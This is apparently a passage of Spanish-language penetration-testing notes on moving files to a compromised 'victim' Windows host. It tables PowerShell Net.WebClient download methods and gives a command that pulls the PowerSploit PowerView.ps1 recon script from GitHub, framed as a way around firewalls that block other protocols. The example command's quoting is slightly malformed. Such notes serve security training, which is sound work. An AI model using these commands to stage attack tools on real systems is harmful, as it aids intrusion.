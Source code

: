 Este método se puede utilizar cuando tengo una shell interactiva con la víctima, pues, lo que escribo con mi teclado lo puedo ejecutar en dicha terminal.
La longitud máxima de caracteres de la PoweShell de Windows está limitada a 8191, pues, archivos muy grandes no los podré transmitir.

## 2. PowerShell Web Downloads
Hay firewalls que permiten el uso de métodos como el HTTP y HTTPS pero pueden ser más restrictivos a la hora de la descarga de archivos .exe.

PowerShell tiene varios métodos para aprovechar la descarga de estos contenidos:

| Método                  | Qué hace                                                                     | Sincronía* |
| ----------------------- | ---------------------------------------------------------------------------- | ---------- |
| **OpenRead**            | Devuelve los datos de un recurso como un **Stream** (flujo de bytes).        | Síncrono   |
| **OpenReadAsync**       | Devuelve los datos de un recurso como Stream sin bloquear el hilo que llama. | Asíncrono  |
| **DownloadData**        | Descarga los datos de un recurso y los devuelve como **array de bytes**.     | Síncrono   |
| **DownloadDataAsync**   | Descarga los datos y los devuelve como array de bytes **sin bloquear**.      | Asíncrono  |
| **DownloadFile**        | Descarga los datos de un recurso y los guarda en un **archivo local**.       | Síncrono   |
| **DownloadFileAsync**   | Descarga los datos y los guarda en un archivo local **sin bloquear**.        | Asíncrono  |
| **DownloadString**      | Descarga los datos de un recurso y los devuelve como **string** de texto.    | Síncrono   |
| **DownloadStringAsync** | Descarga los datos como string **sin bloquear** el hilo que llama.           | Asíncrono  |
*
- **Síncrono** → el comando espera a que termine la descarga antes de continuar.
- **Asíncrono** → la descarga ocurre en segundo plano, permitiendo que el script siga ejecutándose.

#### A. PowerShell – Método `DownloadFile` de `Net.WebClient`
Para descargar archivos desde una URL a un archivo local en Windows.
- **Clase utilizada:** `Net.WebClient`
- **Sintaxis básica (síncrona):**
```
(New-Object Net.WebClient).DownloadFile('<URL del archivo>', '<Ruta local de salida>')`
```

- **Ejemplo:**
```
(New-Object Net.WebClient).DownloadFile(     https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1',     C:\Users\Public\Downloads\PowerView.ps1' )`
```

- **Versión asíncrona:**
`(New-Object Net.WebClient).DownloadFileAsync('<URL del archivo>', '<Ruta local de salida>')`

- **Notas importantes:**
    - `DownloadFile` → Bloquea la ejecución hasta que la descarga termine.
    - `DownloadFileAsync` → Permite que el script siga ejecutándose mientras se descarga en segundo plano.
    - Útil para transferir archivos cuando la red permite HTTP/HTTPS saliente.
    - Se puede usar en entornos donde FTP o SMB están bloqueados pero HTTP/HTTPS está permitido.
